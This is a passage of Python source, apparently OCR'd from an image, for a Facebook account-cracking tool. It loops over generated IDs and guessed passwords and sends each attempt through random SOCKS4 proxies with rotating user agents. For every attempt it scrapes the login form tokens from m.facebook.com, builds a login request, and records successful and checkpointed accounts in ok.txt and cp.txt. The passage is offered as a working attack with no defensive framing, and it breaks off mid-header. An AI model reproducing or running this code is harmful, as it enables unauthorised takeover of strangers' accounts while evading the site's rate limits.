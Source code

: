             uid = kode+guru

            pwx = [guru]

            yaari.submit(rcrack,uid,pwx,tl)

    print('\033[0;95m═════════════════════\033[0;95mꖜ\033[1;92mꖜ\033[0;97mꖜ\033[0;95m════════════════════════')

    print('Crack process has been completed')

    print('Ids saved in ok.txt,cp.txt')

    print('\033[0;95m═════════════════════\033[0;95mꖜ\033[1;92mꖜ\033[0;97mꖜ\033[0;95m════════════════════════')

def rcrack(uid,pwx,tl):

    #print(uid)

    global loop

    global cps

    global oks

    try:

        for ps in pwx:

            nip=random.choice(prox)

            proxs= {'http': 'socks4://'+nip}

            ua = random.choice(ugen)

            ua2 = random.choice(ugen2)   

            session = requests.Session()

            free_fb = session.get('https://m.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {'authority':'m.facebook.com',

            'upgrade-insecure-requests': '1',

            'viewport-width': '980',

            'method': 'PATH',
